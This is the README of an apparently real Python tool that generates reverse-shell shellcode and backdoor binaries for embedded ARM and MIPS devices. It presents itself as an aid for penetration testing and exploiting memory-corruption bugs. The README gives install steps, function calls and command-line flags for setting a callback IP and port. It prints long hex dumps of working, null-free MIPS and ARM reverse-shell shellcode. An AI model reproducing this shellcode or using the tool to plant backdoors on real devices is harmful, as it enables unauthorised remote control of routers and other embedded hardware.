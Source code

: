 # introduction

## foreword

>In the process of penetration and vulnerability mining of embedded devices, many problems have been encountered. One is that some devices do not have telnetd or ssh services to obtain an interactive shell, and the other is that memory corruption vulnerabilities such as stack overflow are usually Null bytes are truncated, so it is more troublesome to construct reverse_shellcode, so this tool was developed to exploit the vulnerability. This tool is developed based on the PWN module and currently uses the python2 language

## fuction

This tool is embedded in the security test of the device. There are two main functions:

1.  Generate **backdoor programs** of various architectures. The backdoor program is packaged in shellless pure shellcode and is smal in size.**Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

2.  Generate **reverse_shell shellcode** of various architectures during the exploit process, and no null bytes, which facilitates the exploitation of memory corruption vulnerabilities on embedded devices. **Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

## install (1)  Highly recommended！！Because the source code compilation may not be updated in time
**pip install hackebds**
```
pip install hackebds
....
Defaulting to user installation because normal site-packages is not writeable
Collecting hackebds
  Downloading hackebds-0.0.3-py2-none-any.whl (11 kB)
Installing collected packages: hackebds
Successfully installed hackebds-0.0.3
>>> import hackebds
>>> dir(hackebds)
['__builtins__', '__doc__', '__file__', '__name__', '__package__', '__path__', 'aarch64', 'arm', 'extract_shellcode', 'mips']
>>> 
```
You can view the function through the dir function

![iShot2022-04-29_13.14.39.png](./img/iShot2022-04-29_13.14.39.png)

```
 'Corefile', 'armebv5_backdoor', 'armebv5_reverse_sl', 'armebv7_backdoor', 'armebv7_reverse_sl', 'armelv5_backdoor', 'armelv5_reverse_sl', 'armelv7_backdoor', 'armelv7_reverse_sl', 'asm', 'atexception', '
```
#### Instructions for use

​	To use the generated backdoor or reverse_shellcode, you need to specify the ip address, port number, assembly architecture, endian （Default is armv7）

​	**Here is the example that generates reverse_shellcode without null bytes**

```
>>> mips.mipsel_reverse_sl("127.0.0.1",4444)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xee\xa3\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
>>> arm.armelv7_reverse_sl("127.0.0.1",4444)
[+] No NULL byte shellcode for hex(len is 226):
\x04\x40\x24\xe0\x7f\x70\xa0\xe3\x28\x70\x4d\xe5\x07\x70\x27\xe0\x27\x70\x4d\xe5\x07\x70\x27\xe0\x26\x70\x4d\xe5\x01\x70\xa0\xe3\x25\x70\x4d\xe5\x02\x70\xa0\xe3\x2c\x70\x4d\xe5\x2b\x40\x4d\xe5\x11\x70\xa0\xe3\x2a\x70\x4d\xe5\x5c\x70\xa0\xe3\x29\x70\x4d\xe5\x14\x40\x4d\xe5\x68\x70\xa0\xe3\x15\x70\x4d\xe5\x73\x70\xa0\xe3\x16\x70\x4d\xe5\x2f\x70\xa0\xe3\x17\x70\x4d\xe5\x6e\x70\xa0\xe3\x18\x70\x4d\xe5\x69\x70\xa0\xe3\x19\x70\x4d\xe5\x62\x70\xa0\xe3\x1a\x70\x4d\xe5\x2f\x70\xa0\xe3\x1b\x70\x4d\xe5\x1b\x40\x4d\xe2\x2c\x50\x4d\xe2\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x4f\xf0\x02\x01\x08\x46\x4f\xf0\x01\x01\x82\xea\x02\x02\x4f\xf0\xc8\x07\x07\xf1\x51\x07\x01\xdf\x06\x46\x29\x46\x4f\xf0\x10\x02\x07\xf1\x02\x07\x01\xdf\x30\x46\x81\xea\x01\x01\x4f\xf0\x3f\x07\x01\xdf\x30\x46\x01\xf1\x01\x01\x01\xdf\x30\x46\x01\xf1\x01\x01\x01\xdf\x20\x46\x81\xea\x01\x01\x82\xea\x02\x02\x03\xb4\x69\x46\x4f\xf0\x0b\x07\x01\xd
```
![iShot2022-04-29 20.57.34](./img/iShot2022-04-29 20.57.34.png)

**This is the usage list for generating the backdoor file of the corresponding schema**
```
Python 2.7.17 (default, Mar 18 2022, 13:21:42) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from hackebds import *
>>> mips.mipsel_backdo	or("127.0.0.1",4444)
mipsel_backdoor is ok in current path ./
>>> arm.armelv7_backdoor("127.0.0.1",4444)
backdoor_armelv7 is ok in ./
>>> arm.armelv7_reverse_sl("127.0.0.1",4444)
``` 
![iShot2022-04-29 20.58.35](./img/iShot2022-04-29 20.58.35.png)
## install (2)
  python2 install pwn
```
pip install pwn
```

​	This tool is developed in python language, so converting python to ELF can be done through **nuitka**

```shell
nuitka hackEmbedded_tool.py
```

​	If possible, put the modules that generate various backdoors and reverse_shellcode under python's site-packages

```
sudo cp ./generate_* {your_dir}/site-packages
sudo cp ./extract_shellcode.py {your_dir}/site-packages
```

You can view the path in sys.path under the python terminal

```
Python 2.7.17 (default, Mar 18 2022, 13:21:42) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> sys.path
```

## Instructions for use for "install (2)"

​	To use the generated backdoor or reverse_shellcode, you need to specify the ip address, port number, assembly architecture, endian （Default is armv7）

​	**Here is the example that generates reverse_shellcode without null bytes**

```
hackEmbedded_tool -reverse_ip 192.168.7.1 -reverse_port 444 -arch arm -endian little -exploit_shellcode 1
```
![image-20220428161403858](./img/image-20220428161403858.png)

**This is the usage list for generating the backdoor file of the corresponding schema**
```
hackEmbedded_tool -reverse_ip 192.168.7.1 -reverse_port 444 -arch arm -endian little -backdoor_file 1
```

![image-20220428161757170](./img/image-20220428161757170.png)

**You can view tool information with -h**

![image-20220428161847829](./img/image-20220428161847829.png)

## chips and architectures
Tests can leverage chips and architectures

Mips:
MIPS 74kc V4.12 big endian
MIPS 24kc V5.0  little endian

Armv7:
Allwinner(全志)V3s

Armv8:
Qualcomm Snapdragon 660

## One-click build environment

To be added
